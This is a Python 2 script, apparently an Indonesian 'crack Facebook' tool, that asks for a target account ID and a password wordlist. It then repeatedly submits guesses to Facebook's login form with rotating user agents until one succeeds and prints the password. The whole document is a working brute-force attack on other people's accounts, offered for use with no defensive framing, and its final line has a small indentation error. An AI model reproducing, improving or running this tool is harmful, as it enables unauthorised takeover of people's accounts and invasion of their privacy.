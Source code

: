 # brute-fb
#!/usr/bin/env python
# -*- coding: UTF-8 -*-
	
	
import os
import sys
import mechanize
import cookielib
import random 
import time

os.system('clear')

def runntek(s):
        for c in s + '\n':
                sys.stdout.write(c)
                sys.stdout.flush()
                time.sleep(10. / 100)

if sys.platform == "linux" or sys.platform == "linux2":
     GL = "\033[96;1m" # Blue aqua
     BB = "\033[34;1m" # Blue light
     YY = "\033[33;1m" # Yellow light
     GG = "\033[32;1m" # Green light
     WW = "\033[0;1m"  # White light
     RR = "\033[31;1m" # Red light
     CC = "\033[36;1m" # Cyan light
     B = "\033[34m"    # Blue
     Y = "\033[33;1m"    # Yellow
     G = "\033[32m"    # Green
     W = "\033[0;1m"     # White
     R = "\033[31m"    # Red
     C = "\033[36;1m"    # Cyan
     rand = (BB,YY,GG,WW,RR,CC)
     P = random.choice(rand)
def cover():
    print """
    
    
    
    
     """
    runntek(GL+"           Assalamu'@laikum Kawan. ^_^...")
    time.sleep(1)
    print " "
    print RR+"  +============================================+"
    print GG+"  |••••••••   CRACK FACEBOOK BRO ^_^   •••••••••|" 
    print RR+"  +============================================+"
    print WW+"  |                 MOD BY: F4dl               |"
    print GG+"  |       Berdoa Dan Tetap Bersabar Bro :)     |"
    print WW+"  |--------------------------------------------|"
    print GL+"  |         SEMOGA HARI MU MENYENANGKAN        |"
    print WW+"  |--------------------------------------------|"
    print RR+"  +============================================+"
    print GG+"  |••••••••   CRACK FACEBOOK BRO ^_^  •••••••••|"
    print RR+"  +============================================+"     


cover()

email = str(raw_input(GL+" •Masukkan ID Target\033[33;1m: "))

passwordlist = str(raw_input(WW+" •Masukkan File Wordlist \033[95m[ pass.txt ] \033[92;1m: "))


#login = 'https://m.facebook.com/login/?ref=dbl&fl&refid=8'


login = 'https://www.facebook.com/login.php?login_attempt=1'


useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Geck')]


def runntek(s):
        for c in s + '\n':
                sys.stdout.write(c)
                sys.stdout.flush()
                time.sleep(10. / 100)

def main():
        global br
        br = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        br.set_handle_robots(False)
        br.set_handle_redirect(True)
        br.set_cookiejar(cj)
        br.set_handle_equiv(True)
        br.set_handle_referer(True)
        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        welcome()
        search()
        print " "
        runntek(RR+"  Wordlis Tidak Ada yang Cocok")
        runntek(RR+"  Kembangin Wordlistnya Sendiri Cuk")
        time.sleep(1)
        print WW+34*"  -"
        kol()

def kol():
    nok = raw_input("Edit wordlist Bro? \033[96;1m[y/n]: ")
    if nok == "y":
        print ("Silahkan tulis perintah \033[92;1m[ nano pass.txt ] !")
        print WW+(41*"-")
        print GL+(" ")
        os.sys.exit()
    else:
        exit(0)
def brute(password):
        sys.stdout.write(GG+"\r[+]\033[97;1m Mencoba ..... {}\n".format(password))
        sys.stdout.flush()
        br.addheaders = [('User-agent', random.choice(useragents))]
        site = br.open(login)
        br.select_form(nr = 0)
        br.form['email'] = email
        br.form['pass'] = password
        sub = br.submit()
        log = sub.geturl()
        if log != login and (not 'login_attempt' in log):
                        print("\033[92;1m\n\n[+]\033[97;1m Password Find \033[31;1m===| \033[96;1m{}".format(password)) 
                        print " "
                        raw_input(WW+"TEKAN ENTER UNTUK KELUAR.....")
                        sys.exit(1)


def search():
        global password
        passwords = open(passwordlist,"r")
        for password in passwords:
                passwords = password.replace("\n","")
                brute(password)


#welcome
def welcome():
        wel = GG+"""
d88888b   j88D  d8888b. db      
88'      j8~88  88  `8D 88      
88ooo   j8' 88  88   88 88      
88~~~   V88888D 88   88 88      
88          88  88  .8D 88booo. 
YP          VP  Y8888D' Y88888P 
                                
                                 \033[96;4mSemoga Hari Mu Menyenangkan\033[92;1m"
      """
        print wel
        print " "
        total = open(passwordlist,"r")
        total = total.readlines()
        print " "
        print GL+" [*] Account to crack : {}".format(email)
        print RR+" [*] Jmlah :" , len(total),WW+ "passwords"
        print Y+" [*] Cracking, please wait .....\n\n"

if __name__ == '__main__':
main()
